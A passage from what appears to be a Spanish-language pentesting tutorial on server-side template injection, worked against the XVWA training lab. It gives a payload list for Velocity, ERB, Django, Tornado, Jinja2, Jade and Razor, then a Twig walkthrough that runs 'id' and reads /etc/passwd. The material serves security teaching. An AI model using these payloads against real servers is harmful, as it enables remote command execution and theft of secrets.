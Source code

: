 ```
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
-------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
-------------------------------------------------------------------
Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
-------------------------------------------------------------------
Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------
```
mayor información de valores que generan inyección puede ingresar a esta ruta [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Volvamos a XVWA y ahora en la caja de texto vamos a ingresar lo siguiente

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/50930193/171770500-3f90b86a-c99a-4bab-bff9-a6513f210463.png)

Allí notamos que se puede ejecutar un comando en el servidor, ahora leamos el archivo de usuarios
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}
```
Nos saldra error pero si lo codificamos veremos que el error no se presenta
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat+/etc/passwd")}}
```
![image](https://user-images.githubusercontent.com/50930193/171771057-2142e593-1498-4102-99a2-8b26801ad30e.png)
